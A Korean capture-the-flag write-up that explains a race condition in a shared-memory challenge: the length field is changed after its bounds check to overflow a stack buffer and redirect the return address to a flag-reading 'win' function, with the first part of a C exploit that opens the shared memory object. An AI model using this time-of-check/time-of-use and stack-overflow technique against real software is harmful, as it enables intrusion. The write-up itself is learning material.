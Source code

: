 
### Bug

재미있는 버그입니다🙂

```c
    shm_req->len = -1;
    shm_req->shift = 0;

    usleep(10000);
    close(fd);
    shm_unlink(name);
```
굉장히 수상해 보이는 녀석..  
공유 메모리 객체를 제거하기 전에 10000ms 기다립니다.  
이 사이에 race conditon으로 다른 프로세스에서 같은 공유 메모리 객체를 매핑할 수 있습니다.  
메모리를 공유하기 때문에 shift_mem 프로세스에 사용되는 shm_req 메모리의 값을 컨트롤 할 수 있게 됩니다.  

```c
        if(shm_req->len < 0 || shm_req->len > MAX_STR_LEN) {
            continue;
        }

        if(shm_req->len == 0) {
            return 0;
        }
        shift_str(shm_req->buf, shm_req->len, shm_req->shift, out);
        printf("%s", out);
```
out 버퍼에 stack overflow를 일으키려면 `shm_req->len`이 `MAX_STR_LEN` 보다 커야 합니다.  
여기서도 race condition을 이용해서, 첫 번째 if 문이 실행되는 동안은 shm_req->len을 0~MAX_STR_LEN 사이의 값으로 설정하고, `shift_str` 함수가 호출되기 전에 MAX_STR_LEN 보다 더 큰 값으로 변경합니다.  

PIE가 걸려있지 않고, flag 읽어주는 `win` 함수가 구현되어 있어서 RET를 바꾸는 것으로 간단히 플래그를 획득할 수 있습니다.  

변조한 RET을 실행하기 위해서는 마지막으로 `shm_req->len`을 0으로 설정해서 while문을 탈출해야 합니다.


### Exploit
```c
#include<stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/stat.h>

#define MAX_STR_LEN 128

typedef struct req {
    unsigned char len;
    char shift;
    char buf[MAX_STR_LEN];
} shm_req_t;

int main(int argc, char** argv) {
    char* name = argv[1];
    mode_t old_umask = umask(0);
    int fd = shm_open(name, O_RDWR, 0666);
    umask(old_umask);

    if(fd == -1) {
        fprintf(stderr, "shm_open error");
        exit(1);
    }

```